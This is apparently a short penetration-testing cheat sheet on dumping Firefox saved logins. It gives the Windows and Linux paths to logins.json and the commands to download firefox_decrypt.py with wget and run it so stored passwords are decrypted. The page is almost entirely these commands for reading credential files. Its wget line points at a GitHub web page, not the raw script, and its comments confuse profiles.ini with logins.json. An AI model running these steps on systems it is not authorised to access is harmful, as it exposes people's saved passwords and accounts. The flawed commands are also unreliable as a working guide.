 # Dump Stored Credentials
```bash
# Storage Location for profiles.ini - Windows
C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\<randomname>.default-release\logins.json

# Storage Location for profiles.ini - Linux
/home/kali/.mozilla/firefox/<randomname>.default-esr/logins.json

# Decrypt with firefox_decrypt.py
wget "https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py"
# Default profiles.ini location
python firefox_decrypt.py
# Specify profiles.ini location
python firefox_decrypt.py /folder/containing/profiles.ini/
```

# References
[firefox_decrypt.py](https://github.com/unode/firefox_decrypt)